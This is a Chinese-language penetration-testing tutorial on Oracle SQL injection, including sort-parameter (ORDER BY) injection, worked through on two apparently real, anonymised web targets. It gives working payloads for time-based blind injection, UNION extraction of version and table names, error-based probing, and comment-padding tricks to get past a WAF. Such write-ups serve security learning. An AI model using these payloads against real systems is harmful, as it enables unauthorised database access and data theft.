 前言
==

今天这篇SQL注入的专题给到我们的Oracle数据库，它是甲骨文公司的一款关系数据库管理系统，其中在市面上的使用率也是很高的。因此这里有必要学习一下关于它的SQL注入的一些注意事项。我会在本篇文章中提到Oracle注入的注意点和其中的排序注入与绕过。

Oracle注入注意点
===========

Oracle数据库在注入过程中的特别之处在于它对于字段点数据类型敏感，需要在字符型字段使用字符型数据，整型字段使用整型数据才可以。因此它在注入的过程中便需要注意判断数据字段的类型。这里我会列出案例来让大家更好的了解。

案例
--

<https://xxx>

其中点击公告信息，抓包：

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-9e891b6ff4ee0ffc2ce1c079f6ea07c051c93b88.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-e5ce3e16b645a2e1eef6937ef2fc58e60383cd2e.png)

其中的noteID参数存在单引号字符型注入，这里因为是纯回显的，所以就能直接判断出为oracle数据库

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-a01b6807514b3c2b56e28b477c1bcbd45a86e671.png)

其中payload：

6340d33754bf402798a6051733698a3c'+and+1=dbms\_pipe.receive\_message('RDS',5)--，成功延时5秒：

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-73a2fec217f7594e0e88a84cb04d3e53c07b3c19.png)

2，则延时2秒：

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-f78f3a67bb4e961666a18de7c86209b9f1247988.png)

其中还可以order by判断出列数为2：

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-2a5a1775856f4729c97528761e435ea48206ef4e.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-a5b55cc0371747613b44dfa69db48af39398e3f6.png)

而oracle数据库与mysql数据库不同点在于它对于字段点数据类型敏感，需要在字符型字段使用字符型数据，整型字段使用整型数据才可以：  
比如如果这里是在在MySQL数据库中，那么这里只需要`union+select+1,2`就可以了；

但是这里是oracle数据库，那么这里就有些许不同了：  
首先6340d33754bf402798a6051733698a3c'+union+select+1,2+from+dual--

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-b402f8d3bf40832b0ad5e41eb0b37586a115aec7.png)

这里的报错就直接提示了需要使用相同的数据类型，因此这里的字段类型为字符型。那么这里就需要将整型改变成字符型： 6340d33754bf402798a6051733698a3c'+union+select+'1','2'+from+dual--

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-9fb854eccb11607bded3e806272cf74955bb7068.png)

那么这里说明两个字段都为字符型。

然后用select+banner+from+sys.v\_$version+where+rownum=1查询数据库版本信息：

6340d33754bf402798a6051733698a3c'+union+select+'1',(select+banner+from+sys.v\_$version+where+rownum=1)+from+dual--

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-6a43e6bc6aa449a8100944f9abdca4c1429c25f8.png)

select instance\_name from V$INSTANCE查询当前数据库

6340d33754bf402798a6051733698a3c'+union+select+'1',(select+instance\_name+from+V$INSTANCE)+from+dual--

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-b4019dfd8a951a85474ce9898e12a1d2d51839df.png)

获取数据库第一个表名：

select+table\_name+from+user\_tables+where+rownum=1

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-e5de6bedfa8832908d19fb4301f1e8bfd012dcd8.png)

排序注入
====

在很多web站点中，都提供了对前端界面显示数据的排序功能，而实际中web站点的排序功能基本都是借助SQL语言的`order by`来实现的，其中的`asc`为升序排列；`desc`为降序排列。那么其中大概的SQL语句为`SELECT * FROM users ORDER BY 1 desc/asc;`这样。而存在**排序注入**的话，其中可控的便是`desc`/`asc`这个位置。

其中可以用报错盲注：`desc,updatexml(1,concat(0x7e,(database()),0x7e),1)`

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-57a993f936c44a6c362a7f3fec7721bd36645724.png)

也可以用延时盲注：`desc,sleep(5)`

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-5b8e70bd7367164d2a502e27839f639f8d13e0e6.png)

以下我将采用案例来更好的让大家学习在Oracle数据库中的排序注入，以及我踩到的坑和如何爬出来的。

案例
--

[https://x.x.x.x/](https://x.x.x.x/%EF%BC%8C%E7%94%A8%E6%88%B7%E5%90%8Dxxx)，用户名xxx 密码xxx

其中点击新教务系统：

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-b4d7777028db3027ec7a2dbb3a6743757773917c.png)

然后抓包：

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-1726301c772d97110e9c50c9e1c08b85f49c102c.png)

其中的`sSortDir_0`参数发现存在关键字`asc`。那么这里进行一个合理的猜测，这个含有`asc`的参数会被拼接到sql语句中执行。  
进行完猜测后，这里便开始实践来验证我的猜想。

### 第一步：判断是否存在sql注入

其中这里我使用判断普通sql注入的方式`'`、`"`、`/0`和`/1`来进行判断，初步判断出我的猜测是正确的，确实可能存在注入。  
（这里图没存，就不贴图了）

### 第二步：判断数据库类型

这里判断出`#`不能注释：

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-21c4f6b88e0667ff8f7881c67f68ff609291e232.png)

而`--`可以注释：

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-4f54eadd315f0f479819f9d9025267742b195b5d.png)

而在mysql里`#`和`--`都可以注释，然后这里还是java站点，那么这里判断为Oracle数据库。

### 第三步：正式开始注入

那么这里便开始进行初步的排序注入：这里首先使用的是`exp()函数`来进行判断，其中数值大于709就会溢出，从而报错。果不其然，`asc,exp(710)`成功报错：

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-6fe2901c401b596dc5e85e818858154827aec683.png)

而`asc,exp(1)`返回成功：

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-f2a41a03b32908e3b5cf32afc157ce9bacd25f2d.png)  
然后这里带上延时语句：

`asc,DBMS_PIPE.RECEIVE_MESSAGE('RDS',1)`

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-943c6ea7b7f1e6bb42427412ca50264718470918.png)

`asc,DBMS_PIPE.RECEIVE_MESSAGE('RDS',2)`

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-609d81a1744c93ce4d162c5183de14afdf039971.png)

这里可以成功延时。

### 遇到的坑

最后这里来讲讲踩到的坑吧：

这里一开始以为是MySQL数据库，又有依讯waf会拦截，然后就一直是用注MySQL的思维来绕过：

像这里依讯waf会把`sleep(1)`这样直接拦截：

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-4e147a5905a75b95301add39db4ba23bcdc53a3c.png)

不过在MySQL里这样多行注释加垃圾字符插在`sleep(1)`之间也是可以成功执行的，但是在Oracle里极其严格这样都是无法成功的：

`sleep/*666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666*/(1)`

这里附上图片：MySQL数据库里这样多行注释加垃圾字符插在`sleep(1)`之间也是可以成功延时的

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-d661a5b8f096a94343fa349fcf8aa4f7a885c144.png)

这里能这么绕过，但是并没有延时。说明不是MySQL：

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-3acaeb3b35e6eb23d20fab92a1dacda8326afa27.png)

然后是updatexml报错注入：

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-78806687f3fce4ac43fb880dc19028ff9bc78c64.png)

这里也能用垃圾字符加多行注释来绕过，只不过这里还给拦截的原因是拦截了`@@version`。那么这里比如替换成`@@global.max_connections`来绕过waf查询全局最大连接数限制等等。

但是这里肯定是出不来的，因为这里是Oracle数据库。那么我最后是怎么发现的呢？因为我在百思不得其解的时候，突然格局打开了，重新判断了下数据库类型，然后就是上面案例中的发现了`#`不能注释，而`--`可以注释，而在MySQL数据库里`#`和`--`都可以注释，然后这里还是java站点，那么这里最终判断为Oracle数据库，然后便是直接`DBMS_PIPE.RECEIVE_MESSAGE('RDS',2)`，而且还没给依讯waf拦截：

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-cc192d6f9bcaedb892ea56a8ace45878b7cb4f33.png)